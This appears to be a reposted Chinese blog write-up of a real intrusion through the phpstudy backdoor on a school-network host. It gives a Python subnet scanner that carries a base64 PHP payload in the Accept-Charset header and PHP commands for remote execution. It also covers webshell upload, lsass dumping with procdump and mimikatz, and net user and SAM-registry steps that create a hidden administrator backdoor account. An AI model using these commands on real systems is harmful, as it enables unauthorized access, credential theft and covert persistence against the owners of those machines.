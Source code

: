 # phpstudy存在后门

[2020-04-19]()

## [](#前言 "前言")前言

前段时间 phpstudy 被爆出存在后门，想到学校里的许多站都是用 phpstudy 做的环境，于是写了个脚本扫描了下，发现真的有中招的。  

### [](#phpstudy后门扫描 "phpstudy后门扫描")phpstudy后门扫描

写了个简单的脚本

```
import requests
import threading

# f = open("ip.txt",'w')
def test(ip):
    url = "http://{}:80/index.php".format(ip)
    headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.132 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3", "Accept-Language": "zh,zh-TW;q=0.9,en-US;q=0.8,en;q=0.7,zh-CN;q=0.6", "Accept-Charset": "ZWNobyAiZGFvbGd0cyI7", "Accept-Encoding": "gzip,deflate", "Connection": "close"}
    try:
        r = requests.get(url, headers=headers)
        if "daolgts" in r.content:
            # f.write(ip+"\n")
            print "[+] found\t"+ip
        # else:
            # print "[-] nope\t"+ip
    except:
        pass
        # print "[-] nope\t"+ip

thread=[]
for _ in range(1,256):
    print "[-] ip :"+_+"next..."
    for i in range(1,256):
        ip = "192.168."+str(_)+"."+str(i)
        t=threading.Thread(target=test,args=(ip,))
        thread.append(t)
        t.start()

for x in thread:
    t.join()
```

最后只有一个 ip 能够利用

### [](#getshell "getshell")getshell

根据 payload 可以执行任意的 php 代码

先 getcwd\(\) 看下位置  
![](1.png)

```
var_dump(getcwd());
dmFyX2R1bXAoZ2V0Y3dkKCkpOw==
string(12) "C:\phpStudy2"
```

  
  
var\_dump\(scandir\(“C:\\phpStudy2”\)\);  
var\_dump\(scandir\(“C:\\phpStudy2\\PHPTutorial”\)\);  
var\_dump\(scandir\(“C:\\phpStudy2\\PHPTutorial\\WWW”\)\);

找到网站目录 C:\\phpStudy2\\PHPTutorial\\WWW

然后利用 file\_put\_contents 写个马  

找到网站目录 `C:\phpStudy2\PHPTutorial\WWW`

然后 `file_put_contents` 写个马

这里使用了蚁剑的插件生成shell，配合蚁剑连接使用  
![](2.png)  
![](3.png)

成功连接  
![](4.png)  
emmm，直接就是 administrator 了，也没有内网环境，后来发现是一台虚拟机，枯燥。。

看下端口  
![](5.png)

发现开启了 3306 和 9833，3306 是 mysql ，这个 9833 应该就是修改了的 3389 的端口mysql 的密码在 config.php 中能找到，而且是 root 用户

使用蚁剑连接，在数据库中发现网站后台的管理员密码  
![](6.png)

然后目标转向 9983  
kali 下使用 rdesktop 有问题  
![](7.png)  
windows 里 mstsc.exe 可以正常连接

然后抓下密码，先传个 procdump64.exe，执行

```
procdump64.exe -accepteula -ma lsass.exe 1.dmp
```

得到 1.dmp ，使用 mimikatz.exe 读

```
sekurlsa::minidump lsass.dmp
sekurlsa::logonPasswords full
```

![](8.png)

emmm，不知道为什么抓不到密码，也尝试了传 mimikatz.exe 直接读，同样失败

1.  既然已经拿到了 administrator 权限，直接添加一个后门用户吧

    net user defaultuser0\$ somepasswordhere /add /y  
    net localgroup administrators defaultuser0\$ /add  
    net localgroup “remote desktop users” defaultuser0\$ /add

使用该账号密码，成功登录

用户名后添加 \$ 在 cmd 里使用 net user 查看时是可以隐藏的，但在图形界面下还是会显示

2.  接下来操作注册表，使这个账户在图形界面中也不显示

* 输入 regedit 打开注册表编辑器，找到 HKEY\_LOCAL\_MACHINE\\SAM\\SAM,右键点击权限，将读写权限赋予 administrator

![](9.png)

* 找到后门用户和 administrator 用户对应的目录

![](10.png)

* 将 administrator 对应目录中的F值复制到后门用户对应目录中的F值  
  ![](11.png)
* 复制完成后，把 defaultuser0\$ 和其对应的 0000003EA 目录导出并保存，然后删除刚才的后门用户

  net user defaultuser0\$ /del

然后重新导入注册表，这样就添加了一个隐藏的用户，使用 defaultuser0\$ 和密码就能登陆为 administrator  
![](12.png)  
事后，发现登着 tim 呢，找到 qq 号，进行亲切友好的交谈  
![](13.png)  
![](14.png)

## [](#写在最后 "写在最后")写在最后

本文转自合天智汇，如有侵权请联系作者，立即删除。  
原文链接：<https://mp.weixin.qq.com/s/97I6jIvKzjHxmTboSyd86A>

**声明：作者初衷用于分享与普及网络知识，若读者因此作出任何危害网络安全行为后果自负，与合天智汇及原作者无关。**

